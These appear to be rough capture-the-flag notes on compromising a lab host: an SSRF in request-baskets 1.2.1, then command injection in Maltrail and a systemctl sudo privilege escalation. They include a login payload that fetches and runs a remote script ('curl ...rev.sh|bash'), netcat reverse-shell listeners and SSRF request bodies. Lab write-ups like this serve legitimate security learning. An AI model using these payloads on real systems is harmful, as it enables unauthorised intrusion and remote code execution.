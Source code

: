  nmap -sV -sC 10.10.11.224
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-11 00:18 EDT
Nmap scan report for 10.10.11.224
Host is up (0.73s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Tue, 11 Jul 2023 04:20:18 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Tue, 11 Jul 2023 04:19:34 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Tue, 11 Jul 2023 04:19:37 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.93%I=7%D=7/11%Time=64ACD857%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;\
SF:x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Tue,\x2011\x20Jul\x20
SF:2023\x2004:19:34\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"/w
SF:eb\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Re
SF:quest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x
SF:20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x202
SF:00\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Tue,\x2011\x20Jul\x20
SF:2023\x2004:19:37\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest
SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;
SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request"
SF:)%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20
SF:Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCon
SF:tent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\
SF:r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x20400\
SF:x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nC
SF:onnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67,"
SF:HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20c
SF:harset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(K
SF:erberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text
SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20R
SF:equest")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\n
SF:Content-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Options
SF::\x20nosniff\r\nDate:\x20Tue,\x2011\x20Jul\x202023\x2004:20:18\x20GMT\r
SF:\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20nam
SF:e\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}\$\
SF:n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:
SF:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20
SF:Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request
SF:\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20clo
SF:se\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 204.05 seconds

`http://10.10.11.224:55555/lala`

It has a basket application which tells us about headers
![](20230711003354.png)

curl -A "<script>alert(1)</script>" http://10.10.11.224:55555/lala

does not have an xss injection

![](20230711003927.png)

There is forwarding URL as well

see the version of request baskets

Powered by request-baskets | Version: 1.2.1 

request-baskets up to v1.2.1 was discovered to contain a Server-Side Request Forgery (SSRF) via the component /api/baskets/{name}. This vulnerability allows attackers to access network resources and sensitive information via a crafted API request.

 For example, consider a shopping application that lets the user view whether an item is in stock in a particular store. To provide the stock information, the application must query various back-end REST APIs, dependent on the product and store in question. The function is implemented by passing the URL to the relevant back-end API endpoint via a front-end HTTP request. So when a user views the stock status for an item, their browser makes a request like this:
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1

This causes the server to make a request to the specified URL, retrieve the stock status, and return this to the user.

In this situation, an attacker can modify the request to specify a URL local to the server itself. For example:
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin

Here, the server will fetch the contents of the /admin URL and return it to the user.

Now of course, the attacker could just visit the /admin URL directly. But the administrative functionality is ordinarily accessible only to suitable authenticated users. So an attacker who simply visits the URL directly won't see anything of interest. However, when the request to the /admin URL comes from the local machine itself, the normal access controls are bypassed. The application grants full access to the administrative functionality, because the request appears to originate from a trusted location. 

https://portswigger.net/web-security/ssrf


https://notes.sjtu.edu.cn/s/MUUhEymt7

POC: POST /api/baskets/{name} API with payload - {"forward_url": "http://127.0.0.1:80/test","proxy_response": false,"insecure_tls": false,"expand_path": true,"capacity": 250}

when setting up a forwarder

![](20230717005846.png)

setting up a netcat

nc -lvp 443

![](20230717005917.png)

now moving on to exploitation

we enable the proxy response

![](20230717010723.png)

not able ot connect

![](20230717010734.png)

maybe if i tried a curl request

```
curl --location 'http://10.10.11.224:55555/api/baskets/yesterday' --header 'Content-Type: application/json' --data '{"forward_url": "http://127.0.0.1:80/login", "proxy_response": true, "insecure_tls": false, "expand_path": true, "capacity": 250}'

{"token":"9-CSIiJmEZBEMan8Kpzph1ruRwOiAC-nR5c90XUldVpL"}  
```

mahesh
2hH3GujPIaU7uH8OFm1jZVQhYpKmBpiqRAuFhx2_NSfR

 curl --location 'http://10.10.11.224:55555/api/baskets/mahesh1' --header 'Content-Type: application/json' --data '{"forward_url": "http://127.0.0.1:80/", "proxy_response": true, "insecure_tls": false, "expand_path": true, "capacity": 250}'

{"token":"5pp6-6PMN7WkQs6_GIMtWxI_6Bgcvt6f2O2rZnDirLiW"}        

![](20230717022747.png)

command injection in mailtrail

```
curl 'http://10.10.11.224:55555/mahesh1/login'  --data 'username=;`curl 10.10.16.47:8000/rev.sh|bash`'
```

rev.sh connects to 1337 

so starting a server 

nc -lvp 1337

and i got a shell

![](20230717024925.png)

on sudo -l :

 (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service

find / -user puma -ls 2>/dev/null

### privilege escalation

script /dev/null /bin/bash

sudo /usr/bin/systemctl status trail.service

![](20230717030603.png)
